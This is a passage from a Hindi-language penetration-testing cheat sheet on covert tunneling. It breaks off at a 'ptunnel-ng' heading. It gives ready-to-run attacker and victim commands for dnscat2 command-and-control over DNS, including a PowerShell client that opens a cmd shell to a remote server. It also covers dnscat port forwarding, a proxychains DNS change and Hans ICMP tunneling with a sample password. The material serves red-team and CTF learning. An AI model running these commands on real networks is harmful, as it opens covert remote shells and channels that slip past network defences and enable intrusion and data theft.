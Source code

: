 [**इसे यहाँ से डाउनलोड करें**](https://github.com/iagox86/dnscat2)**.**

DNS के माध्यम से C\&C चैनल स्थापित करता है। इसे रूट विशेषाधिकारों की आवश्यकता नहीं है।
```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```
#### **PowerShell में**

आप [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) का उपयोग करके PowerShell में dnscat2 क्लाइंट चला सकते हैं:
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```
#### **dnscat के साथ पोर्ट फॉरवर्डिंग**
```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```
#### Proxychains DNS बदलें

Proxychains `gethostbyname` libc कॉल को इंटरसेप्ट करता है और tcp DNS अनुरोध को socks प्रॉक्सी के माध्यम से टनल करता है। **डिफ़ॉल्ट** रूप से, **DNS** सर्वर जो proxychains उपयोग करता है वह **4.2.2.2** है (हार्डकोडेड)। इसे बदलने के लिए, फ़ाइल संपादित करें: _/usr/lib/proxychains3/proxyresolv_ और IP बदलें। यदि आप **Windows वातावरण** में हैं, तो आप **डोमेन कंट्रोलर** का IP सेट कर सकते हैं।

## Go में टनल

[https://github.com/hotnops/gtunnel](https://github.com/hotnops/gtunnel)

## ICMP टनलिंग

### Hans

[https://github.com/friedrich/hans](https://github.com/friedrich/hans)\
[https://github.com/albertzak/hanstunnel](https://github.com/albertzak/hanstunnel)

दोनों सिस्टम में रूट की आवश्यकता होती है ताकि tun एडाप्टर बनाए जा सकें और ICMP इको अनुरोधों का उपयोग करके उनके बीच डेटा टनल किया जा सके।
```bash
./hans -v -f -s 1.1.1.1 -p P@ssw0rd #Start listening (1.1.1.1 is IP of the new vpn connection)
./hans -f -c <server_ip> -p P@ssw0rd -v
ping 1.1.1.100 #After a successful connection, the victim will be in the 1.1.1.100
```
### ptunnel-ng
